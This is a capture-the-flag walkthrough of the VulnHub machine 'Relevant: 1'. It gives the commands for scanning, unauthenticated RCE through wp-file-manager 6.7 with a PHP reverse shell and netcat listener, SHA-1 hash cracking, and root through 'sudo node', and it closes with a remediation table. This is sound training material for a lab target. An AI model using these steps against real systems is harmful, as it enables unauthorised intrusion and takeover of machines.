




# Relevant: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.10.161 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/relevant-1-vulnhub-walkthrough/) |

## Attack Summary

Relevant: 1 is a medium-difficulty VulnHub machine. The web application leaks credentials and a 2FA QR code, but direct SSH login is disabled (a deliberate rabbit hole). Deeper enumeration reveals WordPress and a vulnerable plugin (wp-file-manager 6.7) that allows unauthenticated RCE. A SHA-1 hash hidden in a user's home directory is cracked to pivot to a second user. That user holds sudo access to the `node` binary, which is abused via GTFOBins to obtain a root shell.

## Methodology

1. Network discovery and full-port nmap scan
2. Web content discovery with dirsearch to identify WordPress installation
3. Nmap WordPress scripts to enumerate plugins and find vulnerable versions
4. Unauthenticated RCE via wp-file-manager 6.7 exploit to upload a reverse shell
5. Discovery of SHA-1 hash in hidden directory, cracked via online service
6. Lateral movement to user `news` with cracked credentials
7. Privilege escalation via sudo node (GTFOBins) to obtain root shell

## Step 1: Network Scanning

```bash
netdiscover -i eth0
nmap -A -p- 192.168.10.161
```

Add the target to `/etc/hosts` for convenience:

```bash
echo "192.168.10.161  relevant.local" >> /etc/hosts
```


## Step 2: Web Enumeration

The web service shows credentials and a QR code for two-factor authentication. Attempting SSH with these credentials and the 2FA code fails — SSH is disabled for this account (rabbit hole).

Run dirsearch to discover web paths:

```bash
dirsearch -u http://192.168.10.161/ -e php,html,txt
```

WordPress files and directories are discovered, including `/wp-login.php` and `/wp-content/`.



## Step 3: Plugin Enumeration

Run Nmap's WordPress NSE scripts to enumerate installed plugins:

```bash
nmap -p 80 --script http-wordpress-enum 192.168.10.161
```

Two plugins are identified, including **wp-file-manager version 6.7**.



## Step 4: Unauthenticated RCE via wp-file-manager 6.7

The wp-file-manager plugin versions up to 6.8 contain an unauthenticated RCE vulnerability (CVE-2020-25213). Use the public exploit:

```bash
git clone https://github.com/w4fz5uck5/wp-file-manager-0day
cd wp-file-manager-0day
```

Prepare a pentestmonkey PHP reverse shell, update the IP and port, then upload it using the exploit script:

```bash
# Set LHOST and LPORT in shell.php first
python3 exploit.py http://192.168.10.161 shell.php
```

Start a netcat listener before triggering:

```bash
nc -lvp 4444
```

Trigger the uploaded shell through the browser or curl. Stabilize after connection:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```



## Step 5: Credential Discovery and Hash Cracking

Enumerate the current user's home directory and look for hidden folders:

```bash
ls -la /home/h4x0r/
ls -la /home/h4x0r/.../
cat /home/h4x0r/.../note.txt
```

The note contains a SHA-1 hash. Crack it using hashes.com or a local tool:

```bash
# If cracking locally with hashcat (SHA-1 = mode 100):
hashcat -m 100 -d 1 -w 3 hash.txt /usr/share/wordlists/rockyou.txt
```

The cracked password grants access to user `news`.

## Step 6: Lateral Movement to `news`

```bash
su news
# Enter cracked password
id
sudo -l
```

Output shows:

```
(root) NOPASSWD: /usr/bin/node
```

## Step 7: Privilege Escalation via sudo node

Use the GTFOBins technique for node:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
id
# uid=0(root)
cat /root/root.txt
```



## Lessons Learned

- Outdated WordPress plugins are a common and critical attack vector; patching and removing unused plugins is essential.
- Storing credentials and 2FA secrets in publicly visible web pages exposes users to targeted attacks even when the primary service is locked down.
- Hashing passwords with SHA-1 provides minimal security; SHA-1 is not a password hash function and is trivially cracked with wordlists.
- Granting sudo access to scripting interpreters (node, python, perl) is equivalent to granting root access.

## Remediation

| Vulnerability | Fix |
|---|---|
| wp-file-manager 6.7 unauthenticated RCE | Update to version 6.9+; remove plugin if unused |
| Credentials/2FA secret exposed on web page | Remove credentials from public pages; use out-of-band onboarding |
| SHA-1 credential storage | Use bcrypt, scrypt, or Argon2 for password hashing |
| sudo node without password | Remove the sudo rule; if required, use a wrapper with whitelisted arguments |
| WordPress with no WAF | Deploy ModSecurity or a WordPress security plugin; restrict wp-admin access by IP |
